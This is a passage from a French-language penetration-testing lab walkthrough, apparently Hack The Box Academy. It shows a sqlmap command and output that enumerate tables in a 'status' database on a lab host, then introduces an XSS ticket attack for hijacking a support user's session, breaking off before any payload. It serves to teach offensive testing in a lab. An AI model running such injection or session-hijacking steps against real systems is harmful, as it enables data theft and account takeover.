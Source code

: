 ```
[*] statut
[*] système

[00:09:24] [INFO] a récupéré des données enregistrées dans des fichiers texte sous '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] se terminant à 00:09:24 /2022-06-21/

```

En nous concentrant sur la base de données `status` , nous constatons qu'elle ne contient que deux tables :

```
dsgsec@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql -D status --tables

<SNIP>

---
[00:10:29] [INFO] tester MySQL
[00:10:29] [INFO] confirmant MySQL
[00:10:29] [INFO] le SGBD back-end est MySQL
système d'exploitation du serveur Web : Linux Ubuntu 20.04 ou 19.10 ou 20.10 (eoan ou focal)
technologie des applications Web : Apache 2.4.41
SGBD back-end : MySQL >= 8.0.0
[00:10:29] [INFO] récupération des tables pour la base de données : 'status'
Base de données : état
[2 tableaux]
+---------+
| entreprise |
| utilisateurs |
+---------+

```

À partir de là, nous pourrions essayer de vider toutes les données de la base de données `status` et enregistrer une autre découverte, `SQL Injection`. Essayez ceci manuellement à l'aide du module [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) comme guide et reportez-vous au [SQLMap Essentials](https://academy.hackthebox.com/ module/details/58) module si vous avez besoin d'aide avec l'approche basée sur les outils.

* * * * *

support.inlanefreight.local
---------------------------

Ensuite, nous parcourons le site `http://support.inlanefreight.local` et constatons qu'il s'agit d'un portail d'assistance informatique. Les portails de tickets d'assistance peuvent nous permettre d'interagir avec un utilisateur en direct et peuvent parfois conduire à une attaque côté client où nous pouvons détourner la session d'un utilisateur via une vulnérabilité `Cross-Site Scripting (XSS)` . En parcourant l'application, nous trouvons la page `/ticket.php` où nous pouvons créer un ticket d'assistance. Voyons si nous pouvons déclencher un certain type d'interaction avec l'utilisateur. Remplissez tous les détails d'un ticket et incluez les éléments suivants dans le champ `Message` :
